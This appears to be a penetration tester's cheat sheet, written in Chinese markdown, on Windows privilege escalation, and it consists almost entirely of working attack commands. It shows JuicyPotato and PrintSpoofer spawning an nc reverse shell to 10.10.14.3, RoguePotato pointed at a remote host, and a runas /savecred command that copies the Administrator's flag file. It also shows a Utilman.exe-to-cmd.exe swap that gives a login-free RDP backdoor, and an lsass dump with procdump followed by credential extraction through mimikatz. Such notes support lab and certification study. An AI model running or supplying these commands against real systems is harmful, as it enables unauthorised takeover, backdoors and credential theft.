 ```
runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```
## IIS Configuration
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.confi
```
# 利用User Privileges提權
>[!warning] 小節重點
>這邊都是力用whoami/priv的提權方式
## SeImpersonatePrivilege與SeAssignPrimaryToken
- JuicyPotato 
 ```cmd
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
- PrintSpoofer
```cmd
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
``` cmd
PrintSpoofer.exe -i -c cmd
```
- RoguePotato
``` cmd
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
```
## 找到SeRestorePrivilege
- 修改Utilman.exe 跟 cmd.exe
```
move C:\Windows\system32\Utilman.exe C:\Windows\system32\Utilman.old
move C:\Windows\system32\cmd.exe C:\Windows\system32\Utilman.exe
```
- 用3389連進去，但是不用帳號密碼
```
rdesktop 192.168.226.172
```
```
Win+U
```
## SeDebugPrivilege
>[!warning ] 小節重點
>可以不用管有沒有enable，直接打就可以了
### 利用procdump.exe
- 利用procdump.exe抓取lsass
```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- 利用mimikatz解析
```cmd-session
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
### psgetsys
>要先用tasklist檢查有哪些可以用的system pid 
```
[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
